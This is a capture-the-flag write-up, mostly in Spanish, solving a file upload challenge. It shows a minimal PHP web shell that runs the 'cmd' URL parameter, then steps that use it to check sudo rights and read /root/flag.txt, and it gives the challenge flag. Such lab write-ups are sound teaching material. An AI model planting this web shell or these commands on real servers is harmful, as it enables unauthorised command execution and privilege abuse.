 Description:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.


**Solución 1**

```
Primero entras a la página web del reto. Luego, en tu máquina local, creas un archivo llamado shell.php que tenga un código PHP que reciba un parámetro llamado "cmd" por la URL y lo ejecute. Ese archivo lo subes usando la función que tiene la página para subir imágenes. Después de subirlo, accedes al archivo con la URL pública, por ejemplo algo como sitio.com/uploads/shell.php. Una vez allí, puedes añadir a la URL un signo de interrogación con cmd igual a un comando, como por ejemplo ?cmd=whoami, para ejecutar comandos en el servidor. Después puedes probar con ?cmd=sudo -l para ver si puedes usar sudo sin contraseña. Si se puede, entonces haces ?cmd=sudo cat /root/flag.txt y eso te va a mostrar la bandera del reto.


<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>


```


## Respuesta: picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
